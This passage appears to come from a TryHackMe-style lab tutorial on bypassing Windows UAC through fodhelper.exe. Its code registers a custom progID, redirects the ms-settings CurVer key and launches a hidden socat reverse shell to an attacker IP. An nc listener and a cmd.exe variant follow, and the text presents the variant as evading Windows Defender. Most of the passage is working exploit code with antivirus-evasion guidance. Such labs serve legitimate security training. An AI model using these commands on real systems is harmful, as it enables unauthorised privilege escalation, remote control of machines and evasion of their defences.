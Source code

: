 The exploit code proposed by @V3ded uses Powershell to achieve this end. Here is a modified version of it adapted to use our reverse shell (be sure to replace your IP address where needed):

```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

This exploit creates a new progID with the name **.pwn** and associates our payload to the command used when opening such files. It then points the CurVer entry of ms-settings to our .pwn progID. When fodhelper tries opening an ms-settings program, it will instead be pointed to the .pwn progID and use its associated command.

This technique is more likely to evade Windows Defender since we have more liberty on where to put our payload, as the name of the progID that holds our payload is entirely arbitrary. Let's start a new reverse shell on our attacker's machine:

```
nc -lvp 4445
```

And execute the exploit from our backdoor connection as is. As a result, Windows Defender will throw another alert that references our actions:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/36a12bfed5c44fedf170f934bd4bc9ca.png)  

Although we are still detected, it is essential to note that sometimes the detection methods used by AV software are implemented strictly against the published exploit, without considering possible variations. If we translate our exploit from Powershell to use cmd.exe, the AV won't raise any alerts (be sure to replace your IP address where needed):

Command Prompt

```shell-session
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```
